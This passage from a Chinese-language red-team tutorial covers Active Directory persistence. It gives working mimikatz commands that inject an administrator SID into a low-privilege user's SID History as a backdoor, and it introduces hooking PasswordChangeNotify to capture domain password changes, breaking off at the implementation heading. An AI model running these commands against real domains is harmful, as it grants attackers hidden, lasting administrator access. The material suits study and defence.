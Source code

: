 SID History 是在域迁移过程中需要使用的一个属性。

如果将 A 域中的域用户迁移到 B 域中，那么在 B 域中该用户的 SID 会随之改变，进而影响迁移后用户的权限，导致迁移后的用户不能访问本来可以访问的资源。

**SID History 的作用是在域迁移过程中保持域用户的访问权限**，即如果迁移后用户的 SID 改变了，系统会将其原来的 SID 添加到迁移后用户的 SID History 属性中，使迁移后的用户保持原有权限、能够访问其原来可以访问的资源。

使用 mimikatz，可以将 SID History 属性添加到域中任意用户的 SID History 属性中。在实战中，如果获得了域管理员权限，则可以将 SID History 作为实现持久化的方法。

#### [](#241-%E6%B7%BB%E5%8A%A0-sid-history-%E5%90%8E%E9%97%A8)2.4.1 添加 SID History 后门

打开一个具有域管理员权限的命令行窗口，然后打开 mimikatz，将 administrator 的 SID 添加到 hack 用户的 SID History 属性中。

> 需要注意的是，在使用 mimikatz 注入 SID 之前，需要使用 sid::patch 命令修复 NTDS 服务，否则无法将高权限的 SID 注入低权限用户的 SID History 属性

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>``` | ```powershell<br>mimikatz.exe "privilege::debug" "sid::patch" "sid::add /new:administrator /sam:test" "exit"<br># 将 administrator 的 SID 添加到 hack 的 SID History 属性中<br>``` |

#### [](#242-%E6%9F%A5%E7%9C%8B-sid-history)2.4.2 查看 SID History

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>``` | ```powershell<br>Import-Module activedirectory<br>Get-ADUser hack -Properties sidhistory<br>``` |

#### [](#243-%E6%B8%85%E9%99%A4-sid-history)2.4.3 清除 SID History

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```powershell<br>mimikatz.exe "privilege::debug" "sid::patch" "sid::clear /sam:test" "exit"<br>``` |

### [](#25-hook-passwordchangenotify)2.5 Hook PasswordChangeNotify

#### [](#251-%E8%83%8C%E6%99%AF)2.5.1 背景

在修改域控密码时会进行如下同步操作：

1.  当修改域控密码时，LSA 首先调用 PasswordFileter 来判断新密码是否符合密码复杂度要求
2.  如果符合，LSA 接着调用 PasswordChangeNotify 在系统上同步更新密码

函数 PasswordChangeNotify 存在于 rassfm.dll

rassfm.dll 可理解为 Remote Access Subauthentication dll，只存在于在 Server 系统下，xp、win7、win8 等均不存在

#### [](#252-%E7%89%B9%E7%82%B9)2.5.2 特点

1.  不需要重启
2.  不需要修改注册表
3.  甚至不需要在系统放置 dll

#### [](#253-%E5%AE%9E%E7%8E%B0)2.5.3 实现
